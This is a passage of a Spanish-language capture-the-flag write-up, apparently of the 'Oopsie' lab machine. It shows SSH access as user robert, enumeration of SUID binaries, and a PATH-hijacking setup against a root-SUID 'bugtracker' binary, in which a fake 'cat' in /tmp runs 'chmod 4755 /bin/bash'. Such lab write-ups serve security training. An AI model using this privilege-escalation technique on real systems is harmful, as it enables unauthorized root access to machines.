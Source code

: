 Probamos con el servicio SSH a conectarnos como el usuario Robert
```bash
# ssh robert@10.10.10.28              
The authenticity of host '10.10.10.28 (10.10.10.28)' can't be established.
ECDSA key fingerprint is SHA256:JmIUfqU8/Xv/1Fy/m/Clya5iX2K756n/EGu0eeJb5xc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.28' (ECDSA) to the list of known hosts.
robert@10.10.10.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 15 18:07:17 UTC 2021

  System load:  0.0                Processes:             140
  Usage of /:   25.6% of 19.56GB   Users logged in:       0
  Memory usage: 20%                IP address for ens160: 10.10.10.28
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Last login: Sat Jan 25 10:20:16 2020 from 172.16.118.129
robert@oopsie:~$ ls
user.txt
```
Listamos por permisos `SUID` ya que vemos que con `$sudo -l` no tenemos privilegio para usar `sudo`
```bash
robert@oopsie:~$ find / -perm -u=s -type f 2>/dev/null | xargs ls -l
.
.
-rwsr-xr-- 1 root   bugtracker        8792 Jan 25  2020 /usr/bin/bugtracker
.
```
Nos llama la atencion un permiso SUID como root a un binario personalizado. Vamos a probar a ejecutarlo para ver lo que hace:
```bash
robert@oopsie:~$ /usr/bin/bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 0
---------------

cat: /root/reports/0: No such file or directory
```
Vemos que usar el binario cat y no lo llama de manera absoluta(Con su ruta entera). Se me ocurre la idea de hacer un path Hijacking, creando un archivo llamado cat, que nos ejecute el comando 
que nosotros le digamos haciendo uso del permiso SUID y suplantando la ruta del PATH para que pille antes el cat malicioso nuestro.
Nos movemos a la ruta `/tmp/` y creamos nuestro archivo `cat` malicioso para que nos de privilegios SUID a la `/bin/bash`
```bash
chmod 4755 /bin/bash
```
Ahora vamos a proceder con el PATH HIJACKING:
```bash
export PATH=/tmp:$PATH
chmod +x cat
```